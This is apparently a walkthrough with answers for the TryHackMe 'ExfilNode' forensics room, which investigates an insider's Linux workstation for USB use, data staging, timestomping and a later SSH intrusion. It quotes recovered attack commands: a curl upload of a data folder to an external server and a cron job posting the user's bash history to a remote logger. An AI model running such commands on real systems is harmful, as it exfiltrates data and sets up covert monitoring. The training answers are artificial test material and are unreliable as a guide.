# ExfilNode

| | |
|---|---|
| **Room** | ExfilNode |
| **Difficulty** | Medium |
| **Duration** | 70 min |
| **Link** | [https://tryhackme.com/room/exfilnode](https://tryhackme.com/room/exfilnode) |
| **Path** | Advanced Endpoint Investigations |
| **Module** | 7 — Disk Image Analysis |

---

## Overview

ExfilNode is the direct continuation of the [DiskFiltration](https://tryhackme.com/room/diskfiltration) insider data-exfiltration case. DiskFiltration produced strong evidence against Liam on his company-provided Windows workstation, but he could still argue he was framed because he did not own that machine. So the investigators turn to his **personal Linux workstation** — a system where he had full control and every chance to cover his tracks.

For a SOC/blue team analyst, this is a compact Linux disk-forensics exercise built around one question: *can the same insider story be proven independently on a second device?* It covers USB connect/disconnect evidence, shell aliases and history, outbound transfer commands, a hidden directory with likely timestomped files, SSH logins and cron-based persistence — and ends with a twist: the external entity Liam worked with double-crossed him.

**Recommended prerequisites (per the room):** [Linux Forensics](https://tryhackme.com/room/linuxforensics), [Linux Incident Surface](https://tryhackme.com/room/linuxincidentsurface), [Linux Logs Investigations](https://tryhackme.com/room/linuxlogsinvestigations), [EXT Analysis](https://tryhackme.com/room/extanalysis)

> 📌 The room can be solved independently, but completing [DiskFiltration](https://tryhackme.com/room/diskfiltration) first gives the story context.

---

## Task 1 — The End

### Scenario

The analysis of Liam's company-provided workstation in DiskFiltration revealed major evidence of his involvement in TECH THM's data exfiltration. To gather undeniable evidence, the investigators examine his **personal Linux workstation**, which was suspected to have played a key role in handling the exfiltrated data. Because it was his own machine, Liam had full control over covering his tracks — but was he careful enough? The investigation not only reveals more about the external entity, but also exposes that Liam was double-crossed.

### Lab Setup

- Start the Lab Machine (split view).
- Liam's personal workstation disk is mounted at `/mnt/liam_disk`, and the disk image is at `/home/ubuntu`.
- All questions can be answered by running commands against the mounted disk. Autopsy is available but optional.

If `grep` reports `binary file matches` on a log file, use `-a` to treat it as text:

```bash
grep -i -a "string-pattern" /mnt/liam_disk/var/log/auth.log
```

> 💡 Without `-a`, `grep` can stop at "binary file matches" and hide results from logs on the mounted image.

To use Autopsy instead:

```bash
cd /home/ubuntu/autopsy/autopsy-4.21.0/bin
./autopsy --nosplash
```

Then choose **Open Recent Case** and open `Liam_Personal_Workstation`, which already has the disk image imported.

---

### Q1 — Last login

**When did Liam last logged into the system? (Format: YYYY-MM-DD HH:MM:SS)**

```
2025-02-28 10:59:07
```



---

### Q2 — Device timezone

**What was the timezone of Liam's device?**

```
America/Toronto
```



---

### Q3 — USB serial number

**What is the serial number of the USB that was inserted by Liam?**

```
2651931097993496666
```



---

### Q4 — USB connection time

**When was the USB connected to the system? (Format: YYYY-MM-DD HH:MM:SS)**

```
2025-02-28 10:59:25
```


> 🔴 The USB was connected 18 seconds after the last recorded login, so the exfiltration began almost immediately after Liam logged in.

---

### Q5 — `transferfiles` command

**What command was executed when Liam ran 'transferfiles'?**

```
cp -r \"/media/liam/46E8E28DE8E27A97/Critical Data TECH THM\" /home/liam/Documents/Data
```



> 🔴 `transferfiles` copies the `Critical Data TECH THM` folder from the USB device to `/home/liam/Documents/Data`.

---

### Q6 — Upload to the external server

**What command did Liam execute to transfer the exfiltrated files to an external server?**

```
curl -X POST -d @/home/liam/Documents/Data http://tehc-thm.thm/upload
```



---

### Q7 — Destination IP address

**What is the IP address of the domain to which Liam transferred the files to?**

```
5.45.102.93
```



---

### Q8 — Where `mth` was created

**Which directory was the user in when they created the file 'mth'?**

```
/home/liam
```



---

### Q9 — Henry's payment

**Remember Henry, the external entity helping Liam during the exfiltration? What was the amount in USD that Henry had to give Liam for this exfiltration task?**

```
10000
```



---

### Q10 — USB disconnection time

**When was the USB disconnected by Liam? (Format: YYYY-MM-DD HH:MM:SS)**

```
2025-02-28 11:44:00
```



---

### Q11 — Hidden directory

**There is a .hidden/ folder that Liam listed the contents of in his commands. What is the full path of this directory?**

```
/home/liam/Public
```



---

### Q12 — Timestomped files

**Which files are likely timestomped in this .hidden/ directory (answer in alphabetical order, ascending, separated by a comma)**

```
file3.txt,file7.txt
```



> 🔴 Timestomping alters file timestamps so files blend in or fall outside an investigator's window of interest — a common anti-forensic technique.

---

### Q13 — SSH connection after the exfiltration

**Liam thought the work was done, but the external entity had other plans. Which IP address was connected via SSH to Liam's machine a few hours after the exfiltration?**

```
94.102.51.15
```



---

### Q14 — Cron job

**Which cronjob did the external entity set up inside Liam's machine?**

```
*/30 * * * * curl -s -X POST -d "$(whoami):$(tail -n 5 ~/.bash_history)" http://192.168.1.23/logger.php
```



> 🔴 The job runs every 30 minutes and POSTs the username plus the last five lines of Liam's `~/.bash_history` to `http://192.168.1.23/logger.php` — the external entity was quietly monitoring Liam.

---

## Reconstructed Timeline

Only the timestamps recovered in the room are shown.

| Time (as recorded) | Event |
|---|---|
| 2025-02-28 10:59:07 | Liam's last login to the system |
| 2025-02-28 10:59:25 | USB device (serial `2651931097993496666`) connected |
| 2025-02-28 11:44:00 | USB device disconnected |
| A few hours after the exfiltration | SSH connection to Liam's machine from `94.102.51.15` |

> The room gives no timestamps for the `transferfiles` copy, the `curl` upload or the cron job's creation, so they are not placed on the timeline.

## Findings Summary

| Item | Finding |
|---|---|
| Device timezone | `America/Toronto` |
| USB serial number | `2651931097993496666` |
| Staging command | `transferfiles` → `cp -r` from the USB to `/home/liam/Documents/Data` |
| Exfiltration command | `curl -X POST -d @/home/liam/Documents/Data http://tehc-thm.thm/upload` |
| Destination IP | `5.45.102.93` |
| `mth` file created in | `/home/liam` |
| Payment from Henry | 10000 USD |
| Hidden directory | `/home/liam/Public` |
| Likely timestomped files | `file3.txt`, `file7.txt` |
| Later SSH source | `94.102.51.15` |
| Persistence | Cron job reporting to `http://192.168.1.23/logger.php` every 30 minutes |

---

## Key Takeaways

- A second device can corroborate the first: the personal Linux workstation independently tied Liam to the USB use, the staging copy and the upload, undermining a "framed on a company machine" defence.
- The USB was connected 18 seconds after the last login and removed at 11:44:00, giving a clear window for the data transfer.
- Aliases and shell history can reveal intent: the `transferfiles` command exposed the exact copy from the USB to `/home/liam/Documents/Data`.
- Outbound transfers leave command-line evidence: the `curl -X POST -d @…` command exposed both the data source and the destination domain.
- Personal systems invite anti-forensics: a hidden directory and likely timestomped files (`file3.txt`, `file7.txt`) show an attempt to obscure activity.
- Insiders can become victims too: SSH access from `94.102.51.15` and a cron job sending Liam's own command history to `192.168.1.23` show the external entity double-crossing him.
- Check for persistence after the main event: a 30-minute cron job is a quiet, durable collection mechanism.

---

*Write-up by OPT4RUN*